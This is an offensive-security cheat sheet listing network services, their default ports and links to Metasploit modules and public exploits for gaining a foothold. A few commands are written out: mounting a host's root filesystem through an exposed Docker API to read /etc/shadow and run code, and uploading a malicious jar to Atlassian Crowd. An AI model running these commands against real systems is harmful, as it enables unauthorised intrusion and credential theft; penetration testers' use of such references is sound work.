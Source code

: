 # Easy Hacks

**Description:** Common footholds with resources for exploitation. 

## Java RMI
**Ports:** 1090, 1098, 1099, 4444, 11099, 47001, 47002, 10999 \
**Exploit:**
* [exploit/multi/misc/java_rmi_server](https://www.rapid7.com/db/modules/exploit/multi/misc/java_rmi_server/)
* [Java RMI for pentesters: structure, recon and communication non-JMX Registries](https://itnext.io/java-rmi-for-pentesters-structure-recon-and-communication-non-jmx-registries-a10d5c996a79)
* [Java RMI for pentesters part two — reconnaissance & attack against non-JMX registries](https://itnext.io/java-rmi-for-pentesters-part-two-reconnaissance-attack-against-non-jmx-registries-187a6561314d)

## WebLogic
**Ports:** 7000-7004, 7070, 7071, 8000-8003, 9000-9003, 9503 \
**Exploit:**
* [WebLogic_ExploitDB](https://www.exploit-db.com/search?q=weblogic)

## JDWP
**Ports:** 5005 - 5009, 45000, 45001 \
**Exploit:**
* [exploit/multi/misc/java_jdwp_debugger](https://www.rapid7.com/db/modules/exploit/multi/misc/java_jdwp_debugger/)
* [JDWP_Shellifier](https://github.com/IOActive/jdwp-shellifier)

## JMX
**Ports:** 8686, 9012, 50500 \
**Exploit:**
* [use exploit/multi/misc/java_jmx_server](https://www.rapid7.com/db/modules/exploit/multi/misc/java_jmx_server/)

## GlassFish
**Ports:** 4848 \
**Exploit:**
* [auxiliary/scanner/http/glassfish_traversal](https://www.rapid7.com/db/modules/auxiliary/scanner/http/glassfish_traversal/)

## JBoss
**Ports:** 4444, 4445, 11111 \
**Exploit:**
* [use auxiliary/scanner/http/jboss_vulnscan](https://www.rapid7.com/db/modules/auxiliary/scanner/http/jboss_vulnscan/)
* [JexBoss](https://github.com/joaomatosf/jexboss)

## Cisco Smart Install
**Ports:** 4786 \
**Exploit:**
* [auxiliary/scanner/misc/cisco_smart_install](https://www.rapid7.com/db/modules/auxiliary/scanner/misc/cisco_smart_install/)
* [SIET](https://github.com/Sab0tag3d/SIET)

## HP Data Protector
**Ports:** 5555, 5556 \
**Exploit:**
* [exploit/multi/misc/hp_data_protector_exec_integutil](https://www.rapid7.com/db/modules/exploit/multi/misc/hp_data_protector_exec_integutil/)
* [exploit/windows/misc/hp_dataprotector_cmd_exec](https://www.rapid7.com/db/modules/exploit/windows/misc/hp_dataprotector_cmd_exec/)

## SAP
**Ports:** 3300 \
**Exploit:**
* [SAP_GW_RCE_Exploit](https://github.com/chipik/SAP_GW_RCE_exploit)

## Dameware
**Ports:** 6129 \
**Exploit:**
* [SolarWinds Dameware Mini Remote Control Unauthenticated RCE Synopsis](https://www.tenable.com/security/research/tra-2019-43)
* [dwrcs_dwDrvInst_rce.py](https://github.com/tenable/poc/blob/master/Solarwinds/Dameware/dwrcs_dwDrvInst_rce.py)

## IPMI
**Ports:** 623 \
**Exploit:**
* [auxiliary/scanner/ipmi/ipmi_version](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_version/)
* [auxiliary/scanner/ipmi/ipmi_dumphashes](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_dumphashes/)
* [auxiliary/scanner/ipmi/ipmi_cipher_zero](https://www.rapid7.com/db/modules/auxiliary/scanner/ipmi/ipmi_cipher_zero/)

## Redis
**Ports:** 6379 \
**Exploit:**
* [exploit/linux/redis/redis_replication_cmd_exec](https://www.rapid7.com/db/modules/exploit/linux/redis/redis_replication_cmd_exec/)
* [use exploit/linux/redis/redis_unauth_exec](https://www.rapid7.com/db/modules/exploit/linux/redis/redis_unauth_exec/)

## Cisco Unified Communications Manager
**Ports:** 6970 \
**Exploit:**
* ```curl http://[CUCM IP Address]:6970/ConfigFileCacheList.txt```

# Docker API
**Ports:** 2375 \
**Exploit:**
* ```docker -H [host]:2375 run --rm -it --privileged --net=host -v /:/mnt alpine```
  * File Access: ```cat /mnt/etc/shadow```
  * Remote Code Execution: ```chroot /mnt```

## Adobe ColdFusion BlazeDS
**Ports:** 8080 \
**Exploit:**
* [Adobe ColdFusion BlazeDS Java Object Deserialization RCE Synopsis](https://www.tenable.com/plugins/nessus/99731)
* [Adobe ColdFusion BlazeDS Java Object Deserialization Remote Code Execution ExploitDB](https://www.exploit-db.com/exploits/43993)

## IBM Websphere
**Ports:** 8880 \
**Exploit:**
* [exploit/windows/misc/ibm_websphere_java_deserialize](https://www.rapid7.com/db/modules/exploit/windows/misc/ibm_websphere_java_deserialize/)

## Apache Hadoop
**Ports:** 8088 \
**Exploit:**
* [use exploit/linux/http/hadoop_unauth_exec](https://www.rapid7.com/db/modules/exploit/linux/http/hadoop_unauth_exec/)
* [Unauthorized-Yarn](https://github.com/vulhub/vulhub/blob/master/hadoop/unauthorized-yarn/exploit.py)

## Apache Solr
**Ports:** 8983 \
**Exploit:**
* [Apache Solr RCE via Velocity](https://github.com/jas502n/solr_rce)
* [Apache-Solr-RCE](https://github.com/Imanfeng/Apache-Solr-RCE)

## Zoho Manageengine Desktop
**Ports:** 8383 \
**Exploit:** 
* [src-2020-0011.py](https://srcincite.io/pocs/src-2020-0011.py.txt)

## Atlassian Crowd
**Ports:** 4990 \
**Exploit:**
* ```curl -k -H "Content-Type: multipart/mixed" \ --form "file_cdl=@rce.jar" http://[HOST]:4990/crowd/admin/uploadplugin.action```
* [Atlassian Crowd pdkinstall Metasploit Module](https://packetstormsecurity.com/files/163810/Atlassian-Crowd-pdkinstall-Remote-Code-Execution.html)

## Portainer
**Ports:** 9000 \
**Exploit:**
* [PAZUZU](https://github.com/MauroEldritch/PAZUZU)
* [LEMPO](https://github.com/MauroEldritch/lempo)

## Hashicorp Consul
**Ports:** 8500 \
**Exploit:**
* [use exploit/multi/misc/consul_service_exec](https://www.rapid7.com/db/modules/exploit/multi/misc/consul_service_exec/)

## Apache Spark
**Ports:** 6066 \
**Exploit:**
* [Apache Spark Unauthenticated Reverse Shell RCE](https://github.com/ivanitlearning/CVE-2018-11770)
* [exploit/linux/http/spark_unauth_rce](https://www.rapid7.com/db/modules/exploit/linux/http/spark_unauth_rce/)

## References
* [TrustedSec SpooNMAP](https://github.com/trustedsec/spoonmap)
